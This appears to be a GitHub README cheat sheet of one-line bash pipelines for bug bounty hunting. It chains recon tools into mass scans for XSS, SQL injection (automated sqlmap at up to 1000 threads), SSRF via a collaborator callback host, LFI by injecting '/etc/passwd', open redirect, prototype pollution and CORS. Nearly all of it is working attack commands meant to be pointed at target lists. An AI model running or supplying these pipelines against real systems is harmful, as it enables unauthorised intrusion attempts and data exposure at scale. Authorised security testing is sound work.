 # *BUG BOUNTY WITH ONE-LINE BASH SCRIPTS 🕵️*

## *𝐗𝐒𝐒 ⪼*
```
cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```

## *𝐒𝐐𝐋𝐢 ⪼*
```
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```

## *𝐒𝐒𝐑𝐅 ⪼*
```
findomain -t http://target.com -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace 𝘩𝘵𝘵𝘱://𝘠𝘖𝘜𝘙.𝘣𝘶𝘳𝘱𝘤𝘰𝘭𝘭𝘢𝘣𝘰𝘳𝘢𝘵𝘰𝘳.𝘯𝘦𝘵
```

## *𝐋𝐅𝐈 ⪼*
```
gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

## *𝐎𝐏𝐄𝐍 𝐑𝐄𝐃𝐈𝐑𝐄𝐂𝐓 ⪼*
```
gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

## *𝐏𝐑𝐎𝐓𝐎𝐓𝐘𝐏𝐄 𝐏𝐎𝐋𝐋𝐔𝐓𝐈𝐎𝐍 ⪼*
```
subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
```

## *𝐂𝐎𝐑𝐒 ⪼*
```
gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```

## *𝐄𝐱𝐭𝐫𝐚𝐜𝐭 .𝐣𝐬 ⪼*
```
echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew
```

## *𝐄𝐱𝐭𝐫𝐚𝐜𝐭 𝐔𝐑𝐋𝐬 𝐟𝐫𝐨𝐦 𝐜𝐨𝐦𝐦𝐞𝐧𝐭 ⪼*
```
cat targets.txt | html-tool comments | grep -oE '\b(https?|http)://[-A-Za-z0-9+&@#/%?=~_|!:,.;]*[-A-Za-z0-9+&@#/%=~_|]'
```

## *𝐃𝐮𝐦𝐩 𝐈𝐧-𝐬𝐜𝐨𝐩𝐞 𝐀𝐬𝐬𝐞𝐭𝐬 𝐟𝐫𝐨𝐦 𝐇𝐚𝐜𝐤𝐞𝐫𝐎𝐧𝐞 ⪼*
```
curl -sL 𝘩𝘵𝘵𝘱𝘴://𝘨𝘪𝘵𝘩𝘶𝘣.𝘤𝘰𝘮/𝘢𝘳𝘬𝘢𝘥𝘪𝘺𝘵/𝘣𝘰𝘶𝘯𝘵𝘺-𝘵𝘢𝘳𝘨𝘦𝘵𝘴-𝘥𝘢𝘵𝘢/𝘣𝘭𝘰𝘣/𝘮𝘢𝘴𝘵𝘦𝘳/𝘥𝘢𝘵𝘢/𝘩𝘢𝘤𝘬𝘦𝘳𝘰𝘯𝘦_𝘥𝘢𝘵𝘢.𝘫𝘴𝘰𝘯?𝘳𝘢𝘸=𝘵𝘳𝘶𝘦 | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]
```

## *𝐅𝐢𝐧𝐝 𝐥𝐢𝐯𝐞 𝐡𝐨𝐬𝐭/𝐝𝐨𝐦𝐚𝐢𝐧/𝐚𝐬𝐬𝐞𝐭𝐬 ⪼*
```
subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

## *𝐒𝐜𝐫𝐞𝐞𝐧𝐬𝐡𝐨𝐭 ⪼*
```
assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @'
```

----
# ***SUPPORT***
You can Follow [me](https://www.linkedin.com/in/bhavesh-pardhi-/) on LinkedIn or
<br><br>[![Buy Me a Coffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-Support-orange?style=for-the-badge&logo=buy-me-a-coffee)](https://www.buymeacoffee.com/bhaveshpardhi)

